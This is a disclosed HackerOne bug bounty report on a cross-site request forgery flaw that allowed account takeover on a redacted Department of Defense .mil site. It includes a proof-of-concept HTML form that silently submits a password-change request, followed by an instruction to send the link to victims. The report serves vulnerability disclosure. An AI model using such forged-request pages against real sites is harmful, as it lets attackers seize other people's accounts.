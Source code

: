 # CSRF to account takeover in https://███████.mil/

## Report Details
- **Report ID**: 987751
- **URL**: https://hackerone.com/reports/987751
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-09-22T03:24:11.053Z
- **Disclosed**: 2020-10-16T19:43:15.777Z

## Reporter
- **Username**: dhakal_bibek
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
Hello 
**Description:**

## Impact

## Step-by-step Reproduction Instructions

1. Go to  https://███.mil/ and login using your credintials
2. Now Click on change password
3. First turn the intercept of burp to on and enter your secondary email id and password and click on register password.

```
<html>
  <!-- CSRF PoC - kira-->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://████████.mil/scripts/wa.exe" method="POST">
      <input type="hidden" name="GETPW2" value="GETPW1" />
      <input type="hidden" name="Y" value="a█████" />
      <input type="hidden" name="p" value="████████" />
      <input type="hidden" name="q" value="███████" />
      <input type="hidden" name="X" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

4: Now send the link to the victims
## Product, Version, and Configuration (If applicable)

██████

## Impact

It is a critical issue as i was able to takeover anyone account using this attack..

## Attachments
No attachments
